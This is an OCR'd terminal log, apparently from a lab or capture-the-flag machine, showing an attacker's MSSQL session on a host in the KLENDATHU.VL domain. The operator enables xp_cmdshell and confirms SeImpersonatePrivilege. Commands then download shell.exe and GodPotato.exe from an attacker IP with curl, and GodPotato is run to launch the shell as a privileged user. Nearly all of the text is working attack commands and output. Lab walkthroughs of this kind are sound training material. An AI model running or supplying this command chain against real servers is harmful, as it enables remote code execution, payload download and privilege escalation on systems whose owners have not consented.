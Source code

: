     SQL (KLENDATHU.VL\deladirier  dbo@master)> enable_xp_cmdshell
    [*] INFO(SRV1\SQLEXPRESS): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
    [*] INFO(SRV1\SQLEXPRESS): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
    SQL (KLENDATHU.VL\deladirier  dbo@master)> xp_cmdshell whoami /priv
    output                                                                             
    --------------------------------------------------------------------------------   
    NULL                                                                               

    PRIVILEGES INFORMATION                                                             

    ----------------------                                                             

    NULL                                                                               

    Privilege Name                Description                               State      

    ============================= ========================================= ========   

    SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   

    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   

    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    

    SeImpersonatePrivilege        Impersonate a client after authentication Enabled    

    SeCreateGlobalPrivilege       Create global objects                     Enabled    

    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   

    NULL                                                                               

    SQL (KLENDATHU.VL\deladirier  dbo@master)> xp_cmdshell curl 10.8.2.152/shell.exe -o c:\programdata\shell.exe
    output                                                                             
    --------------------------------------------------------------------------------   
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current    

                                    Dload  Upload   Total   Spent    Left  Speed      

    100  7168  100  7168    0     0  32092      0 --:--:-- --:--:-- --:--:-- 32143   

    NULL                                                                               

    SQL (KLENDATHU.VL\deladirier  dbo@master)> xp_cmdshell curl 10.8.2.152/GodPotato.exe -o c:\programdata\godpotato.exe
    output                                                                             
    --------------------------------------------------------------------------------   
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current    

                                    Dload  Upload   Total   Spent    Left  Speed      

    100 57344  100 57344    0     0   174k      0 --:--:-- --:--:-- --:--:--  173k   

    NULL                                                                               

    SQL (KLENDATHU.VL\deladirier  dbo@master)> xp_cmdshell c:\programdata\godpotato.exe -cmd "c:\programdata\shell.exe"
